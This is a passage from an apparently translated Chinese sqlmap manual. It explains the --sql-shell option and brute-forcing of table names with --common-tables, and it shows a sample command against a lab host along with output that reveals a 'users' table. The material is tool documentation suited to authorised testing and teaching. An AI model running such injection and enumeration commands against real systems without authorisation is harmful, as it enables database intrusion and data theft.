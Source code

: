 正如你所看到的，sqlmap将查询分成两个不同的SELECT语句，然后检索每个单独查询的输出。


如果提供的查询是一个SELECT语句并包含一个FROM子句，sqlmap会询问你这样的语句是否可以返回多个条目。在这种情况下，工具知道如何正确地解开查询，计算条目的数量并输出。

`--sql-shell`参数会提供一个数据库的shell，还支持TAB补全和命令历史记录。

### 3.10 暴力破解

以下参数可用于暴力破解

#### **3.10.1 暴力破解表名**
> 开关 --common-tables

有些情况下，使用参数`--tables`不能获取到数据库表，通常原因有如下几类：
- 数据库管理系统是MySQL<5.0，此时`information_schema`不可用
- 数据库系统是Microsoft Access，默认设置系统表`MSysObjects`不可读
- 当前用户没有权限读取系统表

对于前两种情况，sqlmap有可能会识别出现有的表并且会提示你是否使用`--common-table`选项。

爆破表位于是`txt/common-tables.txt`，你可以自行编辑。

针对MySQL 4.1目标的示例：
```
python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner
```
结果：
```
[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:    '4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/tx
t/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```
#### **3.10.2 暴力破解列名**

